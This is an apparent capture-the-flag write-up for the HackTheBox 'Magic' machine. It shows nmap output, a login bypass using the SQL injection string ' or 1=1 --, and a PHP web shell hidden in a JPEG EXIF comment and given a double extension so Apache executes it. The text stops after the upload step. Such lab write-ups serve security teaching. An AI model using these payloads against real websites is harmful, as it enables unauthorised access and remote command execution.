 ```yaml
---
title: "Magic"
description: "Writeup for Magic machine from HTB"
date: 2020-08-03
author: "Pablo Jesús González Rubio"
cover: "magic.png"
coverAlt: "Magic icon"
toc: true
tags: [ "Writeup" ]
---
```


## Scanning

Hosts: `10.10.10.185 magic.htb`

Nmap output:

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 06:d4:89:bf:51:f7:fc:0c:f9:08:5e:97:63:64:8d:ca (RSA)
|   256 11:a6:92:98:ce:35:40:c7:29:09:4f:6c:2d:74:aa:66 (ECDSA)
|_  256 71:05:99:1f:a8:1b:14:d6:03:85:53:f8:78:8e:cb:88 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Magic Portfolio
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Bypassing

### Login

As gobuster can't find too much we try to login to upload a file.

To log in we simply input a SQL injection on the login form:

User: `' or 1=1 --` and Pass: `' or 1=1 --`

### Fooling the Image Uploader

Uploading an image and modifying the request with Burp didn't work so we upload a normal `.jpg` but modified with and EXIF comment:

```
exiftool -Comment='<?php system($_REQUEST['cmd']); ?>' test.jpg
```

And finally, we change the name to execute PHP: `mv test.jpg test.php.jpg`, as the Apache server interprets both extensions.
